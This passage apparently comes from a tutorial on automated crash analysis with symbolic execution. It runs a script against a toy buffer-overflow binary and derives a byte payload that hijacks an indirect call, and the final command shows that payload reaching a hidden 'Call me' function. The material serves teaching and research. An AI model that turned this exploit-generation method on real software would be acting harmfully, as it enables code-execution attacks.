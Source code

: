 ```python

    # Launch the symbolic execution
    # We use the last element of context['trace'] to determin the crashing instruction
    symbolic_run(targeted_prog, symb_argv, context["trace"], context["trace"][-1])
```

This script is run with:

```shell
$ python crash_analysis.py ./bof  -- AAAAAAAAAAAAAAAAAAAAAAA -- +++++++++++++++++++++++
Starting concrete execution
Crash found at 0x80488d5
Instruction: call eax
5955 instructions are recorded
Starting symbolic execution
State diverge at 0x8048944
[..]
The solution is:
\x41\x01\x01\x01\x7c\x88\x04\x08\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01
```

Now, if we use this solution as the input of the original program, it triggers the targeted function:

```
$ ./bof $(python -c 'print "\x41\x01\x01\x01\x7c\x88\x04\x08\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01 "')
Call me
```

